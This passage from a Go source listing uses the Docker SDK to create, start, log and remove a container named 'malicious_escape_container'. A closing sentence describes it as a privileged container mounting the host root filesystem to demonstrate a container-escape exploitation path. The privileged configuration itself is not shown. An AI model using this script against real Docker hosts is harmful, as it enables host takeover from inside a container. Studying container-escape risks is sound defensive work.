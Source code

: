 ```Go
	resp, err := cli.ContainerCreate(ctx, containerConfig, hostConfig, nil, nil, "malicious_escape_container")
	if err!= nil {
		fmt.Fprintf(os.Stderr, "Error creating malicious container: %v\n", err)
		os.Exit(1)
	}
	fmt.Printf("Created container %s\n", resp.ID)

	if err := cli.ContainerStart(ctx, resp.ID, container.StartOptions{}); err!= nil {
		fmt.Fprintf(os.Stderr, "Error starting malicious container: %v\n", err)
		// Attempt to remove the created container if start fails
		_ = cli.ContainerRemove(ctx, resp.ID, container.RemoveOptions{})
		os.Exit(1)
	}
	fmt.Printf("Started container %s. Waiting for it to complete...\n", resp.ID)

	statusCh, errCh := cli.ContainerWait(ctx, resp.ID, container.WaitConditionNotRunning)
	select {
	case err := <-errCh:
		if err!= nil {
			fmt.Fprintf(os.Stderr, "Error waiting for container: %v\n", err)
		}
	case status := <-statusCh:
		fmt.Printf("Container %s finished with status code: %d\n", resp.ID, status.StatusCode)
	}

	// Retrieve logs from the malicious container
	logOptions := container.LogsOptions{ShowStdout: true, ShowStderr: true}
	logReader, err := cli.ContainerLogs(ctx, resp.ID, logOptions)
	if err!= nil {
		fmt.Fprintf(os.Stderr, "Error getting container logs: %v\n", err)
	} else {
		defer logReader.Close()
		fmt.Println("Logs from malicious container:")
		_, _ = stdcopy.StdCopy(os.Stdout, os.Stderr, logReader)
	}

	// Clean up the container
	fmt.Printf("Removing container %s...\n", resp.ID)
	err = cli.ContainerRemove(ctx, resp.ID, container.RemoveOptions{Force: true})
	if err!= nil {
		fmt.Fprintf(os.Stderr, "Error removing container %s: %v\n", resp.ID, err)
	} else {
		fmt.Printf("Container %s removed successfully.\n", resp.ID)
	}
	fmt.Println("Conceptual privileged container creation and execution attempt finished.")
}
```

This Go program uses the Docker SDK to list containers on the host and then attempts to create and run a new privileged container that mounts the host's root filesystem, demonstrating a potential exploitation path.
